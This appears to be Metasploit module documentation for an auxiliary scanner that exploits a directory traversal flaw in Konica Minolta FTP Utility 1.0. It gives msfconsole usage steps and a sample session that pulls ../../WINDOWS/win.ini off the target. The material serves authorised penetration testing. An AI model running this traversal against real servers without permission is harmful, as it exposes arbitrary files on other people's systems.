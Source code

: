 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in Konica Minolta FTP Utility 1.0. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Link to Konica Minolta FTP Utility 1.00 software download [Exploit-DB](https://www.exploit-db.com/apps/6388a2ae7dd2965225b3c8fad62f2b3b-ftpu_10.zip)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/konica_ftp_traversal`
  3. set RHOSTS [ip]
  4. Do: `run`

## Scenarios

### Konica Minolta FTP Utility 1.00 on Windows 7 (X64)

  ```
  msf5 > use modules/auxiliary/scanner/ftp/konica_ftp_traversal
  msf5 auxiliary(scanner/ftp/konica_ftp_traversal) > set RHOSTS 1.1.1.1
    RHOSTS => 1.1.1.1
  set PATH ../../WINDOWS/win.ini
    PATH => ../../WINDOWS/win.ini
  msf5 auxiliary(scanner/ftp/konica_ftp_traversal) > run
  [+] 192.168.2.253:21      - Stored ../../WINDOWS/win.ini to /root/.msf4/loot/20191122042114_default_192.168.2.253_konica.ft     p.data_003802.ini
  [*] 192.168.2.253:21      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
